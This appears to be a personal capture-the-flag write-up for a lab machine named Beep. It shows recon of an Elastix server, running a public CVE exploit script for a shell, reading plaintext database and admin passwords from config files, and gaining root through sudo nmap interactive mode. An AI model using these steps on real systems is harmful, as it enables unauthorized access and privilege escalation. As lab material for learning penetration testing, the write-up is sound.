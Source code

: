 # BEEP

### RECON
Found in nmap:
- root@localhost.localdomain
- http-title: Elastix

ssl is too low need to change browser for burpsuite to access 
- http (redirect to https)
- https
- :10000

found elastix cve need to edit /etc/ssl/openssl.cnf in order to not be blocked because of ssl version 

```
python2 elastix_cve.py
```

we have a shell 

```
bash-3.2$ whoami
asterisk
```

we have user.txt here

### OS RECON 
```
/var/www/html/vtigercrm/config.db.php:  $dbconfig['db_password'] = '_DBC_PASS_';
/var/www/html/vtigercrm/config.inc.php:$dbconfig['db_password'] = 'vtiger2007';
```

elastix password admin:jEhdIekWmdjE

we actually need no more than sudo -l 
```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
```
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```

